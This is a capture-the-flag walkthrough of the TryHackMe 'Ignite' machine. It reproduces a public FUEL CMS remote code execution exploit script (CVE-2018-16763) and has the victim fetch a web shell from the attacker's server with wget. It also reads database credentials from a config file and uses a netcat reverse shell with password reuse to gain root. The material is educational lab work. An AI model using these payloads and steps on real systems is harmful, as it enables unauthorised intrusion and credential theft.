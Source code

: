 ```yaml
---
layout: post
title: TryHackMe - Ignite
---
```


## Enumeration
### nmap
```
root@kali:~/Security/TryHackMe/ignite# portscan 10.10.164.23
Open ports: 80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-30 16:05 EDT
Nmap scan report for 10.10.164.23
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.52 seconds
```
### HTTP
Navigating to http://http://10.10.164.23/, we get a Getting Started page for Fuel CMS with some useful information in how the database is set up. However /fuel/application/config/database.php is forbidden with our permissions. robots.txt already told us about /fuel/ but, the home page explicitly tells us:
```
To access the FUEL admin, go to:
http://10.10.164.23/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```
At http://http://10.10.164.23/fuel, we have a login form which opens with the provided `admin:admin` credentials. Based on the site_docs, we have a couple places to try setting up a reverse shell: Pages, Layouts, and Assets.

Before we go too far, let's search for a exploit for fuelCMS v1.4:
```
root@kali:~/Security/TryHackMe/ignite# searchsploit fuelCMS
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
fuelCMS 1.4.1 - Remote Code Execution                                    | exploits/linux/webapps/47138.py
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
After copying the exploit to our working directory, we need to change the `url` variable and comment out the provided proxy since we aren't using Burp Suite.

```
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

# url = "http://127.0.0.1:8881"
url = "http://10.10.164.23"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	# r = requests.get(burp0_url, proxies=proxy)
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```
## Gaining RCE Access
The script works, but prints out unnecessary HTML. It's a bit clunky, but we can confirm we are www-data and grab the usr flag from /home/www-data/flag.txt. Since this is a bit clunky and the connection keeps dropping, we should use [phpbash.php](https://github.com/Arrexel/phpbash).

## Getting a Shell

```
# Attacker
root@kali:~/scripts/phpbash# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.164.23 - - [31/Aug/2020 14:01:59] "GET /phpbash.php HTTP/1.1" 200 -

# Victim 
cmd:"wget http://10.2.37.2:8000/phpbash.php"
```
Navigate to http://10.10.164.23/phpbash.php:
```
www-data@ubuntu:/var/www/html# cat /home/www-data/flag.txt
{censored}
```
## Escalating Privileges
We were told that the database config file can be found in fuel/application/config/database.php, so let's see if we can grab some credentials.
```
www-data@ubuntu:/var/www/html# cat /fuel/application/config/database.php
...
$db['default'] = array(
'dsn' => '',
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
'dbdriver' => 'mysqli',
...
www-data@ubuntu:/var/www/html# su root
su: must be run from a terminal
```
We may have root credentials, but we cannot check since we need to [spawn a TTY shell](https://netsec.ws/?p=337) to run `su`. Seems phpbash.php was fun but is pretty unstable, so let's `wget` a standard reverse shell.

```
root@kali:~/scripts# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.164.23 - - [31/Aug/2020 15:10:02] "GET /php-reverse-shell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
root@kali:~/scripts# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.2.37.2] from (UNKNOWN) [10.10.164.23] 47428
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:14:27 up  1:23,  0 users,  load average: 1.02, 0.98, 0.91
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$ su root
su root
Password: mememe

root@ubuntu:/# cat /root/root.txt
cat /root/root.txt
{censored}
``` 
I hope you enjoyed the walkthrough.
